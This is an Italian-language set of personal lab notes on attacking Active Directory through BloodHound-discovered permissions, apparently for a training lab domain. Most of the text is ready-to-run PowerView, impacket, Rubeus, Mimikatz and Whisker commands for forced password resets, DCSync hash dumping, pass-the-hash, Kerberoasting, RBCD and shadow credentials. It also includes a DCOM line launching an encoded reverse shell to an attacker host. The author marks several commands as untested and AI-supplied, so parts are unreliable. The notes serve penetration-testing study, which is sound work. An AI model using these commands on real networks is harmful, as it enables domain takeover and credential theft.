# BloodHound

- [BloodHound](#bloodhound)
  - [Installazione](#installazione)
  - [Attacchi](#attacchi)
    - [ForceChangePassword](#forcechangepassword)
    - [CanRDP, CanPSRemote, ExecuteDCOM](#canrdp-canpsremote-executedcom)
      - [CanRDP](#canrdp)
      - [CanPSRemote → PowerShell Remoting (WinRM)](#canpsremote--powershell-remoting-winrm)
      - [ExecuteDCOM](#executedcom)
        - [Opzione 1 – Scrivi l'output su uno share di rete (tuo)](#opzione-1--scrivi-loutput-su-uno-share-di-rete-tuo)
        - [Opzione 2 – Reverse shell](#opzione-2--reverse-shell)
    - [AdminTo](#adminto)
        - [Opzione 1 – PSExec (shell interattiva)](#opzione-1--psexec-shell-interattiva)
        - [Opzione 2 – WMIExec](#opzione-2--wmiexec)
        - [Opzione 3 – PSRemote (se abilitato)](#opzione-3--psremote-se-abilitato)
          - [Può succedere che:](#può-succedere-che)
        - [Opzione 4 – Dumping credenziali (il vero valore di AdminTo)](#opzione-4--dumping-credenziali-il-vero-valore-di-adminto)
    - [AddMember](#addmember)
      - [Differenza con AddSelf](#differenza-con-addself)
    - [AllowedToDelegate](#allowedtodelegate)
      - [Come funziona concettualmente](#come-funziona-concettualmente)
      - [Come abusarlo?](#come-abusarlo)
        - [Perché è così potente?](#perché-è-così-potente)
        - [Constrained vs Unconstrained Delegation](#constrained-vs-unconstrained-delegation)
    - [DCSync](#dcsync)
      - [Cos'è DCSync](#cosè-dcsync)
      - [Come vederlo in BloodHound](#come-vederlo-in-bloodhound)
      - [Sfruttarlo da Linux (impacket)](#sfruttarlo-da-linux-impacket)
      - [Sfruttarlo da Windows (Mimikatz)](#sfruttarlo-da-windows-mimikatz)
      - [Da Windows con Invoke-Mimikatz (se PowerSploit disponibile)](#da-windows-con-invoke-mimikatz-se-powersploit-disponibile)
      - [Cosa fare con gli hash ottenuti](#cosa-fare-con-gli-hash-ottenuti)
      - [Perché è così devastante](#perché-è-così-devastante)
    - [GenericAll](#genericall)
      - [GenericAll User](#genericall-user)
        - [Cos'è GenericAll](#cosè-genericall)
        - [Come vederlo in BloodHound](#come-vederlo-in-bloodhound-1)
        - [Metodo 1 – Cambia la password di Ester (come ForceChangePassword)](#metodo-1--cambia-la-password-di-ester-come-forcechangepassword)
        - [Metodo 2 – Targeted Kerberoasting (aggiungi SPN)](#metodo-2--targeted-kerberoasting-aggiungi-spn)
      - [GenericAll Group](#genericall-group)
          - [Prima cosa: guarda cosa può fare ITAdmins in BloodHound](#prima-cosa-guarda-cosa-può-fare-itadmins-in-bloodhound)
        - [Come abusarlo](#come-abusarlo-1)
      - [GenericAll Computer](#genericall-computer)
          - [Metodo 1 – RBCD (Resource-Based Constrained Delegation)](#metodo-1--rbcd-resource-based-constrained-delegation)
          - [Metodo 2 – Shadow Credentials (più semplice)](#metodo-2--shadow-credentials-più-semplice)
          - [Da Linux con impacket](#da-linux-con-impacket)
      - [GenericAll Dominio](#genericall-dominio)
        - [Come abusarlo](#come-abusarlo-2)
    - [WriteDacl](#writedacl)
      - [WriteDacl Utente](#writedacl-utente)
      - [Come abusarlo su un utente](#come-abusarlo-su-un-utente)
        - [GenericAll + Cambio Password](#genericall--cambio-password)
        - [Aggiungi direttamente ForceChangePassword](#aggiungi-direttamente-forcechangepassword)
      - [WriteDacl Group](#writedacl-group)
        - [Come abusarlo](#come-abusarlo-3)
      - [WriteDacl Computer](#writedacl-computer)
        - [Come abusarlo](#come-abusarlo-4)
      - [WriteDacl Dominio](#writedacl-dominio)
        - [Come abusarlo](#come-abusarlo-5)
    - [WriteOwner](#writeowner)
      - [WriteOwner User](#writeowner-user)
        - [Come abusarlo](#come-abusarlo-6)
      - [WriteOwner Group](#writeowner-group)
        - [Come abusarlo](#come-abusarlo-7)
      - [WriteOwner Computer](#writeowner-computer)
        - [Come abusarlo](#come-abusarlo-8)
      - [WriteOwner Dominio](#writeowner-dominio)
    - [WriteDacl su una GPO](#writedacl-su-una-gpo)
      - [Prima cosa: guarda cosa fa la GPO BACKUPS in BloodHound](#prima-cosa-guarda-cosa-fa-la-gpo-backups-in-bloodhound)
      - [Come abusarlo](#come-abusarlo-9)
    - [WriteOwner su una GPO](#writeowner-su-una-gpo)
    - [GenericWrite su una GPO](#genericwrite-su-una-gpo)
      - [WriteDacl vs WriteOwner vs GenericWrite su GPO](#writedacl-vs-writeowner-vs-genericwrite-su-gpo)
    - [WriteSPN su Utente](#writespn-su-utente)
      - [Come abusarlo](#come-abusarlo-10)
    - [GenericWrite su Utente](#genericwrite-su-utente)
      - [Attacco 1 – Targeted Kerberoasting (stesso di WriteSPN)](#attacco-1--targeted-kerberoasting-stesso-di-writespn)
      - [Attacco 2 – Shadow Credentials](#attacco-2--shadow-credentials)
    - [AddKeyCredentialLink](#addkeycredentiallink)
      - [Come abusarlo](#come-abusarlo-11)
      - [Prerequisito importante](#prerequisito-importante)
      - [Vantaggio rispetto a ForceChangePassword](#vantaggio-rispetto-a-forcechangepassword)
    - [Owns (User)](#owns-user)
      - [Come abusarlo](#come-abusarlo-12)
    - [AddKeyCredentialLink su Computer](#addkeycredentiallink-su-computer)
      - [Come abusarlo](#come-abusarlo-13)
        - [Cosa fare con il TGT del computer](#cosa-fare-con-il-tgt-del-computer)
    - [ReadLAPSPassword](#readlapspassword)
      - [Come abusarlo](#come-abusarlo-14)
      - [Perché è importante trovarlo](#perché-è-importante-trovarlo)
    - [ReadGMSAPassword](#readgmsapassword)
      - [GMSA vs LAPS](#gmsa-vs-laps)
      - [Come vederlo in BloodHound](#come-vederlo-in-bloodhound-2)
      - [Come abusarlo](#come-abusarlo-15)
      - [Perché è importante](#perché-è-importante)
    - [AllExtendedRights (User)](#allextendedrights-user)
      - [Come abusarlo](#come-abusarlo-16)
    - [AddAllowedToAct](#addallowedtoact)
      - [Come abusarlo](#come-abusarlo-17)
      - [Perché DC01 è il target più prezioso](#perché-dc01-è-il-target-più-prezioso)
- [Analizzare i dati in BloodHound](#analizzare-i-dati-in-bloodhound)
  - [Approccio top-down](#approccio-top-down)
    - [Step 1 – Panoramica del dominio](#step-1--panoramica-del-dominio)
    - [Step 2 – Analizza Domain Users](#step-2--analizza-domain-users)
    - [Step 3 – Path da Domain Users a Domain Admins](#step-3--path-da-domain-users-a-domain-admins)
    - [Step 4 – Chi sono i Domain Admins?](#step-4--chi-sono-i-domain-admins)
    - [Step 5 – Shortest Paths to Domain Admins](#step-5--shortest-paths-to-domain-admins)
    - [Finding Sessions](#finding-sessions)
    - [Owned Principals — La funzione più utile per il Red Team](#owned-principals--la-funzione-più-utile-per-il-red-team)
    - [Pre-built Queries più utili](#pre-built-queries-più-utili)
- [Cypher Queries](#cypher-queries)
  - [Cos'è Cypher?](#cosè-cypher)
  - [Attributi Cypher](#attributi-cypher)
  - [Keywords Principali](#keywords-principali)
  - [Query](#query)
    - [Neo4j Query vs BloodHound Query](#neo4j-query-vs-bloodhound-query)
    - [Cypher query per restituire tutti gli utenti](#cypher-query-per-restituire-tutti-gli-utenti)
    - [Cypher query per restituire l'utente peter](#cypher-query-per-restituire-lutente-peter)
    - [Cypher query per restituire i gruppi a cui fa parte peter](#cypher-query-per-restituire-i-gruppi-a-cui-fa-parte-peter)
      - [Si possono anche restituire tutte le variabili n,r,g](#si-possono-anche-restituire-tutte-le-variabili-nrg)
      - [In BloodHound si deve creare una variabile "p" se si vuole avere il grafo!](#in-bloodhound-si-deve-creare-una-variabile-p-se-si-vuole-avere-il-grafo)
  - [Altre Query perchè siamo hackerinə :D](#altre-query-perchè-siamo-hackerinə-d)
    - [Restituire la relazioni "MemberOf" di Peter](#restituire-la-relazioni-memberof-di-peter)
    - [Trovare un path dove il nome del primo gruppo contiene "ITSECURITY"](#trovare-un-path-dove-il-nome-del-primo-gruppo-contiene-itsecurity)
      - [Si può usare anche =~](#si-può-usare-anche-)
  - [Analisi di Query di BloodHound](#analisi-di-query-di-bloodhound)
    - [Paths più corti verso domain admins](#paths-più-corti-verso-domain-admins)
  - [ShortestPath da qualsiasi nodo](#shortestpath-da-qualsiasi-nodo)
    - [ACL con PowerView](#acl-con-powerview)
  - [Query Custom](#query-custom)
    - [Cheat sheet utili](#cheat-sheet-utili)
    - [Diritti che Domain Users non dovrebbe avere sui computer](#diritti-che-domain-users-non-dovrebbe-avere-sui-computer)
    - [Utenti con description non vuota (possibili password in chiaro!)](#utenti-con-description-non-vuota-possibili-password-in-chiaro)
    - [Tutti i local admin e le loro macchine](#tutti-i-local-admin-e-le-loro-macchine)
    - [Trova un edge specifico](#trova-un-edge-specifico)
    - [Salvare Custom Queries](#salvare-custom-queries)
      - [Esempio query statica](#esempio-query-statica)
      - [Esempio query interattiva (con selezione da nodo owned)](#esempio-query-interattiva-con-selezione-da-nodo-owned)


BloodHound usa Graph Theory.


Grace è membro di SQL Admins.

## Installazione
TODO Prima o poi lo scriverò...


## Attacchi

### ForceChangePassword


Grace -> fa parte del gruppo **PasswordReset** -> ha il **"ForceChangePassword"** su Rosy

```
PS C:\Tools> . .\PowerView.ps1
PS C:\Tools> $SecPassword = ConvertTo-SecureString 'Password11' -AsPlainText -Force
PS C:\Tools>  $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\grace', $SecPassword)
PS C:\Tools> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\Tools> Set-DomainUserPassword -Identity rosy -AccountPassword $UserPassword -Credential $Cred
```

E poi ti puoi loggare come `rosy` sulla workstation in cui può loggarsi (questo puoi vederlo su BloodHound, selezionando `rosy` e premendo **"First Degree RDP Privileges"**).


### CanRDP, CanPSRemote, ExecuteDCOM
Li vedi dal sottomenu "Execution Rigths"


#### CanRDP
Rosy -> CanRDP -> SRV01

- Su BloodHound, selezionando `rosy` e premendo **"First Degree RDP Privileges"**

Accedi con:
- Remote Desktop Controller
- `xfreerdp /v:SRV01 /u:rosy /p:Password99 /dynamic-resolution /drive:.,linux`

Ti apre una sessione grafica completa. È il metodo più "rumoroso" perché crea una sessione interattiva ben visibile nei log.

#### CanPSRemote → PowerShell Remoting (WinRM)
Rosy -> CanPSRemote -> SRV01

- In teoria dovrebbe essere sotto "Execution Rights" (nel lab non c'era). //TODO da confermare!

```
PS C:\Tools> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\Tools> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\rosy', $SecPassword)
PS C:\Tools> Enter-PSSession -ComputerName SRV01 -Credential $Cred
[SRV01]: PS C:\Users\rosy\Documents> $env:username
rosy
[SRV01]: PS C:\Users\rosy\Documents> $env:computername
SRV01
```

Ti dà una shell PowerShell remota su SRV01. Usa la porta 5985 (WinRM). **Meno rumoroso di RDP perché non crea sessione grafica.**

#### ExecuteDCOM
Rosy -> ExecuteDCOM" -> SRV01

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\rosy', $SecPassword)

$ComputerName = "SRV01.INLANEFREIGHT.HTB"
$ProgId = "MMC20.Application"
$Type = [Type]::GetTypeFromProgID($ProgId, $ComputerName)
$ComObject = [Activator]::CreateInstance($Type)

# Esegui un comando tramite il COM object
$ComObject.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c whoami > C:\output.txt", "7")
```
In questo caso scriverà un file sul SRV01 (non proprio utile, dovresti poi entrarci con Enter-PSSession per esempio). Ma si può anche fare:

##### Opzione 1 – Scrivi l'output su uno share di rete (tuo)
```
$ComObject.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c powershell -e <base64_reverseshell>", "7")
```
L'output arriva direttamente sul tuo attacker host.

##### Opzione 2 – Reverse shell
```
$ComObject.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c powershell -e <base64_reverseshell>", "7")
```
Ti apre una shell interattiva verso il tuo attacker host.

> Quindi quando ha senso usare ExecuteDCOM?
>
>Tipicamente lo usi per scaricare ed eseguire un payload (reverse shell, beacon C2) sulla macchina remota, non per leggere output. È un punto di ingresso, non uno strumento interattivo.

### AdminTo

- AdminTo significa che Sarah è Local Administrator su SRV01, quindi hai il massimo dei privilegi sulla macchina. 
- AdminTo è l'edge più potente perché ti dà controllo completo della macchina, inclusa la possibilità di rubare credenziali di altri utenti loggati su quella macchina. 
- Puoi sfruttarlo in diversi modi.

##### Opzione 1 – PSExec (shell interattiva)
```
# Da Linux
impacket-psexec INLANEFREIGHT.HTB/sarah:Password12@SRV01

# Da Windows
.\PsExec.exe \\SRV01 -u INLANEFREIGHT\sarah -p Password12 cmd.exe
```

##### Opzione 2 – WMIExec
```
impacket-wmiexec INLANEFREIGHT.HTB/sarah:Password12@SRV01
```

##### Opzione 3 – PSRemote (se abilitato)
```
$SecPassword = ConvertTo-SecureString 'Password12' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\sarah', $SecPassword)

Enter-PSSession -ComputerName SRV01 -Credential $Cred
```

Essere local admin non implica automaticamente poter usare PSRemote, perché WinRM è un servizio separato che deve essere:
- Avviato sul target (WinRM service running)
- Configurato per accettare connessioni remote (Enable-PSRemoting)
- Non bloccato dal firewall (porta 5985)

###### Può succedere che:


Nel Node Info di Sarah trovi:
```
OUTBOUND OBJECT CONTROL  (o LOCAL ADMIN RIGHTS)
  └── First Degree Local Admin: 1  → SRV01
```
Oppure dal lato di SRV01:
```
LOCAL ADMINS
  └── First Degree Local Admins → sarah appare qui
```

Ma con **AdminTo** puoi comunque abilitare tu stesso WinRM da remoto:
```
# Se hai AdminTo puoi abilitare WinRM tramite WMI
Invoke-WmiMethod -ComputerName SRV01 -Credential $Cred -Class Win32_Process -Name Create -ArgumentList "powershell Enable-PSRemoting -Force"
```
> Ma è più rumoroso e macchinoso. Meglio usare direttamente PSExec o secretsdump con AdminTo.

##### Opzione 4 – Dumping credenziali (il vero valore di AdminTo)
```
# Da Linux
impacket-secretsdump INLANEFREIGHT.HTB/sarah:Password12@SRV01

# Da Windows con Mimikatz
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

### AddMember


- AddMembers su ITManagers significa che Martha può aggiungere utenti al gruppo ITManagers.
- Da solo non sembra utile, ma diventa potente quando guardi cosa può fare il gruppo ITManagers nel grafo! Magari ha qualche local admin in qualche altra parte!

Aggiungere nel gruppo:
```
$SecPassword = ConvertTo-SecureString 'Password13' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\martha', $SecPassword)

# Aggiunge martha stessa al gruppo ITManagers - Comando POWERVIEW (includilo prima)
Add-DomainGroupMember -Identity 'ITManagers' -Members 'martha' -Credential $Cred -Verbose

# Verifica che è stato aggiunto nel gruppo
Get-DomainGroupMember -Identity 'ITManagers' -Credential $Cred
```

#### Differenza con AddSelf


`AddMembers` è più potente perché puoi aggiungere anche altri utenti, non solo te stesso.


### AllowedToDelegate
AllowedToDelegate è un privilegio di Kerberos Constrained Delegation. Significa che Ester può impersonare qualsiasi utente quando accede a SRV01.


- Da Ester lo trovi sotto **Constrained Delegation Privileges**.
- Pre-build query: **Find Computers with Constrained Delegation**

#### Come funziona concettualmente
```
Normalmente:
Utente → autentica se stesso → SRV01

Con Constrained Delegation:
Ester → impersona Domain Admin → SRV01
"Sto accedendo a SRV01 per conto di Domain Admin"
```
AD si fida di Ester per fare questo, quindi le permette di richiedere ticket Kerberos per conto di altri utenti, limitatamente a SRV01.

#### Come abusarlo?
L'obiettivo è impersonare un utente privilegiato (es. Administrator) su SRV01.

Da Linux con impacket:
```
# 1. Richiedi un ticket per Administrator su SRV01 impersonandolo come Ester
impacket-getST -spn cifs/SRV01.INLANEFREIGHT.HTB \
  -impersonate Administrator \
  INLANEFREIGHT.HTB/ester:Password15

# 2. Usa il ticket ottenuto
export KRB5CCNAME=Administrator.ccache

# 3. Accedi a SRV01 come Administrator
impacket-psexec -k -no-pass SRV01.INLANEFREIGHT.HTB
```

Da Windows con Rubeus:
```
# 1. Richiedi il ticket
.\Rubeus.exe s4u /user:ester /password:Password15 /impersonateuser:Administrator /msdsspn:cifs/SRV01.INLANEFREIGHT.HTB /ptt

# 2. Ora hai il ticket in memoria, accedi
.\PsExec.exe \\SRV01 cmd.exe

# Puoi accedere anche in altri modi, tipo con winrs
```

##### Perché è così potente?


##### Constrained vs Unconstrained Delegation



### DCSync
#### Cos'è DCSync
DCSync è un attacco che simula il comportamento di un Domain Controller durante la replica AD. Normalmente i DC si sincronizzano tra loro chiedendosi gli hash delle password. Con i giusti privilegi puoi fare la stessa richiesta fingendoti un DC e ottenere gli hash di tutti gli utenti, incluso krbtgt e Administrator.
I privilegi necessari sono:

- GetChanges
- GetChangesAll

Peter li ha entrambi → BloodHound mostra l'edge DCSync su INLANEFREIGHT.




#### Come vederlo in BloodHound
```
Cerca peter → Node Info → Outbound Object Control
→ DCSync su INLANEFREIGHT.HTB
```
oppure usa la pre-built query:
```
Find Principals with DCSync Rights
```
//DA TESTARE (non sicurissima dei comandi - me li ha detto Claudino ma non li ho ancora provati!)
#### Sfruttarlo da Linux (impacket)
```
impacket-secretsdump INLANEFREIGHT.HTB/peter:'Licey2023'@DC01.INLANEFREIGHT.HTB
```
Output:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
...tutti gli hash del dominio...
```

#### Sfruttarlo da Windows (Mimikatz)
```
# Da una sessione come peter
.\mimikatz.exe

# Dentro mimikatz:
lsadump::dcsync /domain:INLANEFREIGHT.HTB /user:Administrator
# oppure tutti gli utenti:
lsadump::dcsync /domain:INLANEFREIGHT.HTB /all
```

#### Da Windows con Invoke-Mimikatz (se PowerSploit disponibile)
```
$SecPassword = ConvertTo-SecureString 'Licey2023' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\peter', $SecPassword)

Import-Module C:\Tools\PowerSploit\Exfiltration\Invoke-Mimikatz.ps1
# Richiedi l'hash di Administrator
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:INLANEFREIGHT.HTB /user:Administrator"' -Credential $Cred
```

#### Cosa fare con gli hash ottenuti
```
# Pass-the-Hash → accesso come Administrator senza password in chiaro
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b Administrator@DC01.INLANEFREIGHT.HTB

# Oppure crackare l'hash offline con hashcat
hashcat -m 1000 hash.txt rockyou.txt
```

#### Perché è così devastante
```
DCSync su INLANEFREIGHT
  → hash di Administrator  → accesso completo al dominio
  → hash di krbtgt         → Golden Ticket attack (persistenza infinita)
  → hash di tutti gli utenti → movimento laterale ovunque
```

> È sostanzialmente game over per il dominio. Chi ha DCSync può ottenere le credenziali di qualsiasi utente senza toccare nessuna macchina, generando pochissimo rumore.

### GenericAll



#### GenericAll User


##### Cos'è GenericAll
È il permesso più potente in AD — controllo totale sull'oggetto target. Su un utente ti permette di fare praticamente tutto:

- Cambiare la password
- Aggiungere SPN (Kerberoasting)
- Aggiungere shadow credentials (AddKeyCredentialLink)
- Modificare qualsiasi attributo

##### Come vederlo in BloodHound
```
Cerca pedro → Node Info → Outbound Object Control → First Degree Object Control
→ GenericAll su ester
```

##### Metodo 1 – Cambia la password di Ester (come ForceChangePassword)
```
$SecPassword = ConvertTo-SecureString 'Password17' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\pedro', $SecPassword)

$NewPassword = ConvertTo-SecureString 'NuovaPassword123!' -AsPlainText -Force
Set-DomainUserPassword -Identity ester -AccountPassword $NewPassword -Credential $Cred -Verbose
```

##### Metodo 2 – Targeted Kerberoasting (aggiungi SPN)
GenericAll ti permette di aggiungere un SPN a Ester e poi fare Kerberoasting:
```
# Aggiungi un SPN falso a Ester
Set-DomainObject -Identity ester -SET @{serviceprincipalname='fake/FAKE'} -Credential $Cred

# Richiedi il ticket Kerberos
Get-DomainSPNTicket -SPN 'fake/FAKE' -Credential $Cred

# Cracka l'hash offline
hashcat -m 13100 hash.txt rockyou.txt
```

#### GenericAll Group


Con controllo totale su un gruppo puoi essenzialmente fare la stessa cosa di AddMembers — aggiungere chiunque al gruppo — ma con privilegi ancora più ampi (puoi anche modificare altri attributi del gruppo).

###### Prima cosa: guarda cosa può fare ITAdmins in BloodHound
```
Cerca ITAdmins → Node Info
→ Local Admin Rights (su quali macchine è admin?)
→ Outbound Object Control (cosa controlla?)
```
Il valore di questo attacco dipende interamente da cosa può fare ITAdmins.

##### Come abusarlo
Aggiungi Pedro (o qualsiasi utente) al gruppo
```
$SecPassword = ConvertTo-SecureString 'Password17' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\pedro', $SecPassword)

# Aggiungi pedro al gruppo ITAdmins
Add-DomainGroupMember -Identity 'ITAdmins' -Members 'pedro' -Credential $Cred -Verbose

# Verifica
Get-DomainGroupMember -Identity 'ITAdmins' -Credential $Cred
```


#### GenericAll Computer


Su un oggetto computer GenericAll ti apre due attacchi principali:
- Resource-Based Constrained Delegation (RBCD)
- Shadow Credentials

//TODO Da testare!

###### Metodo 1 – RBCD (Resource-Based Constrained Delegation)
L'idea è: modifichi l'attributo ```msDS-AllowedToActOnBehalfOfOtherIdentity``` di WS01 per permettere a un computer che controlli di impersonare qualsiasi utente su WS01.
```
$SecPassword = ConvertTo-SecureString 'Password17' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\pedro', $SecPassword)

# 1. Crea un computer account falso (serve un account con SPN)
New-MachineAccount -MachineAccount FakeComputer -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Credential $Cred

# 2. Ottieni il SID del computer falso
$ComputerSid = Get-DomainComputer FakeComputer -Properties objectsid | Select -Expand objectsid

# 3. Modifica l'attributo di WS01 per permettere la delega da FakeComputer
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer WS01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $Cred

# 4. Ottieni un ticket impersonando Administrator su WS01
.\Rubeus.exe s4u /user:FakeComputer$ /password:Password123! /impersonateuser:Administrator /msdsspn:cifs/WS01.INLANEFREIGHT.HTB /ptt

# 5. Accedi a WS01
.\PsExec.exe \\WS01 cmd.exe
```

###### Metodo 2 – Shadow Credentials (più semplice)
```
# Aggiungi shadow credentials a WS01
.\Whisker.exe add /target:WS01$ /domain:INLANEFREIGHT.HTB /dc:DC01.INLANEFREIGHT.HTB

# Whisker ti restituisce un comando Rubeus da eseguire per ottenere il TGT
.\Rubeus.exe asktgt /user:WS01$ /certificate:<cert> /password:<pass> /ptt

# Con il TGT puoi fare DCSync o accedere alla macchina
impacket-secretsdump -k WS01.INLANEFREIGHT.HTB
```

###### Da Linux con impacket
```
# RBCD attack
impacket-addcomputer INLANEFREIGHT.HTB/pedro:Password17 -computer-name FakeComputer$ -computer-pass Password123!

impacket-rbcd INLANEFREIGHT.HTB/pedro:Password17 -action write -delegate-to WS01$ -delegate-from FakeComputer$

impacket-getST INLANEFREIGHT.HTB/FakeComputer$:Password123! -spn cifs/WS01.INLANEFREIGHT.HTB -impersonate Administrator

export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass WS01.INLANEFREIGHT.HTB
```

> Su un computer non puoi cambiare la password come faresti con un utente — gli account computer gestiscono le loro password autonomamente. Per questo si usano RBCD o Shadow Credentials.

#### GenericAll Dominio


È il privilegio più devastante possibile — controllo totale sull'oggetto dominio stesso. In pratica ti permette di fare DCSync perché puoi modificare le DACL del dominio e aggiungere a te stesso i permessi GetChanges e GetChangesAll.

##### Come abusarlo
Step 1 – Aggiungi i permessi DCSync a Pedro
```
$SecPassword = ConvertTo-SecureString 'Password17' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\pedro', $SecPassword)

# Aggiungi i permessi DCSync a pedro sul dominio
Add-DomainObjectAcl -TargetIdentity "DC=INLANEFREIGHT,DC=HTB" `
  -PrincipalIdentity pedro `
  -Rights DCSync `
  -Credential $Cred `
  -Verbose
```

Step 2 – Esegui DCSync
```
# Da Linux
impacket-secretsdump INLANEFREIGHT.HTB/pedro:'Password17'@DC01.INLANEFREIGHT.HTB
powershell# Da Windows con Mimikatz
.\mimikatz.exe "lsadump::dcsync /domain:INLANEFREIGHT.HTB /all" "exit"
```

Perché passare per DCSync?
- Con GenericAll sul dominio potresti fare molte cose, ma DCSync è il più efficace perché:
```
GenericAll (Domain)
  → aggiungi GetChanges + GetChangesAll a pedro
    → DCSync
      → hash di tutti gli utenti
        → hash Administrator + krbtgt
          → game over
```

### WriteDacl
WriteDacl ti permette di modificare la DACL (Discretionary Access Control List) di un oggetto. La DACL definisce chi ha quali permessi su quell'oggetto.



#### WriteDacl Utente
In pratica puoi aggiungere qualsiasi permesso a te stesso sull'oggetto target — quindi è quasi equivalente a GenericAll, ma in modo indiretto.



#### Come abusarlo su un utente

##### GenericAll + Cambio Password
Step 1 – Aggiungi GenericAll a Carlos su Juliette
```
$SecPassword = ConvertTo-SecureString 'Password18' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\carlos', $SecPassword)

# Aggiungi GenericAll su Juliette a Carlos
Add-DomainObjectAcl -TargetIdentity juliette `
  -PrincipalIdentity carlos `
  -Rights All `
  -Credential $Cred `
  -Verbose
```

Step 2 – Ora hai GenericAll, cambia la password di Juliette
```
$NewPassword = ConvertTo-SecureString 'NuovaPassword123!' -AsPlainText -Force
Set-DomainUserPassword -Identity juliette `
  -AccountPassword $NewPassword `
  -Credential $Cred `
  -Verbose
```

##### Aggiungi direttamente ForceChangePassword
Invece di aggiungere GenericAll puoi aggiungere solo il permesso che ti serve:
```
# Aggiungi solo ForceChangePassword
Add-DomainObjectAcl -TargetIdentity juliette `
  -PrincipalIdentity carlos `
  -Rights ResetPassword `
  -Credential $Cred `
  -Verbose

# Poi cambia la password
$NewPassword = ConvertTo-SecureString 'NuovaPassword123!' -AsPlainText -Force
Set-DomainUserPassword -Identity juliette `
  -AccountPassword $NewPassword `
  -Credential $Cred `
  -Verbose
```

#### WriteDacl Group
Come per l'utente, WriteDacl su un gruppo ti permette di modificare la DACL del gruppo. L'obiettivo però cambia — invece di controllare un utente, vuoi entrare nel gruppo per ereditarne i privilegi.




Prima cosa: guarda cosa può fare FirewallManagers in BloodHound
```
Cerca FirewallManagers → Node Info
→ Local Admin Rights
→ Outbound Object Control
```
Il valore dell'attacco dipende da cosa può fare il gruppo.

##### Come abusarlo
Step 1 – Aggiungi AddMember a Carlos su FirewallManagers
```
$SecPassword = ConvertTo-SecureString 'Password18' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\carlos', $SecPassword)

# Aggiungi il permesso AddMember su FirewallManagers a Carlos
Add-DomainObjectAcl -TargetIdentity FirewallManagers `
  -PrincipalIdentity carlos `
  -Rights WriteMembers `
  -Credential $Cred `
  -Verbose
```
Step 2 – Aggiungiti al gruppo
```
# Ora Carlos può aggiungere membri al gruppo
Add-DomainGroupMember -Identity FirewallManagers `
  -Members carlos `
  -Credential $Cred `
  -Verbose

# Verifica
Get-DomainGroupMember -Identity FirewallManagers -Credential $Cred
```

Il comando Add-DomainGroupMember mi aveva dato problemi:
```
# Controlla le ACL su FirewallManagers
Get-DomainObjectAcl -Identity FirewallManagers -ResolveGUIDs -Credential $Cred | 
  Where-Object {$_.SecurityIdentifier -match (Get-DomainUser carlos -Credential $Cred).objectsid}
```

Se dall'output vedo che Carlos ha:

- WriteDacl ✅ (già presente, era il permesso originale)
- Self-Membership ✅ (questo è il permesso WriteMembers che abbiamo aggiunto)

Self-Membership significa che Carlos può aggiungere solo se stesso al gruppo, non altri utenti. È come AddSelf!

Ma se il permesso c'è ma dà ancora Access Denied, potrebbe essere un problema di propagazione — prova ad aspettare qualche secondo e riprovare. 

Oppure prova con GenericAll invece di WriteMembers:
```
Add-DomainObjectAcl -TargetIdentity FirewallManagers `
  -PrincipalIdentity carlos `
  -Rights All `
  -Credential $Cred `
  -Verbose
```

Quindi il problema potrebbe essere che WriteMembers aggiungeva solo Self-Membership (AddSelf) che non era sufficiente per aggiungere membri tramite PowerView.
- Usando Rights All hai aggiunto GenericAll su FirewallManagers a Carlos, che include tutti i permessi necessari incluso quello di aggiungere membri.

Recap di cosa è successo:
```
WriteDacl su FirewallManagers
  → Step 1: Add-DomainObjectAcl -Rights WriteMembers
    → aggiunge solo Self-Membership (troppo limitato per PowerView)
    ❌ Add-DomainGroupMember → Access Denied

  → Step 1 (corretto): Add-DomainObjectAcl -Rights All
    → aggiunge GenericAll
    ✅ Add-DomainGroupMember → successo
```

#### WriteDacl Computer
Come per gli altri oggetti, modifichi la DACL per aggiungere a te stesso permessi più elevati. Su un computer l'obiettivo è ottenere GenericAll e poi sfruttarlo come abbiamo visto con Pedro su WS01:
- RBCD
- Shadow Credentials



//NOT TESTATO
##### Come abusarlo
Step 1 – Aggiungi GenericAll a Carlos su SRV01
```
$SecPassword = ConvertTo-SecureString 'Password18' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\carlos', $SecPassword)

Add-DomainObjectAcl -TargetIdentity SRV01 `
  -PrincipalIdentity carlos `
  -Rights All `
  -Credential $Cred `
  -Verbose
```

